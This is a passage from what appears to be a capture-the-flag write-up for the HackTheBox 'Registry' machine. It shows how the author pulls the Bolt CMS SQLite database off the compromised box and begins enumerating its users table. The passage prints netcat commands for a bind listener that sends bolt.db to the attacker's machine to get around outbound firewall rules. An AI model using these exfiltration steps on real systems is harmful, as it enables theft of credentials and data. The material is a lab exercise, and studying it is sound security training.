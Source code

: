 # Accessing Bolt App

It's usually good practice to try previously found credentials on new targets like this, but so far we don't have the right ones. Instead, continue the enumeration by looking into the other info found from the config file, "bolt.db". 

Using the `file` command to find out what kind of database it is, you'll see it's made with sqlite3. 

{% highlight console %}
bolt@bolt:/var/www/html/bolt/app/database$ file bolt.db
bolt.db: SQLite 3.x database, last written using SQLite version 3022000
{% endhighlight %}

Unfortunately, the box doesn't have the SQLite3 program installed so we can't directly open it from there, it has to first be copied out. One way to do that is by using Netcat.

There must be some firewall rules set up to drop outgoing connections because none of my attempts to send the file back the way I normally do it worked. So instead, it has to be done by setting up the listener on the remote box first.

`nc -lvnp 5555 < bolt.db`

And on your local machine use Netcat to connect to the listener, with it set up to save data sent to it as the database file.

`nc registry.htb 5555 > bolt.db`

Once you enter that command, it will connect and receive the database, then you'll just need to kill the connection and analyze the file!

## Analyzing bolt.db with sqlite3
Open the newly downloaded database file with `sqlite3 bolt.db`, and it will tell you to use ".help" for usage directions.

{% highlight console %}
~/htb/registry ᐅ sqlite3 bolt.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> 
{% endhighlight %}

To list out the tables, use the command `.tables`.

{% highlight console %}
sqlite> .tables
bolt_authtoken    bolt_field_value  bolt_pages        bolt_users      
bolt_blocks       bolt_homepage     bolt_relations  
bolt_cron         bolt_log_change   bolt_showcases  
bolt_entries      bolt_log_system   bolt_taxonomy 
{% endhighlight %}

Any table with "users" in the name is usually good for enumeration, so dump that table with the SQL query `select * from bolt_users`.

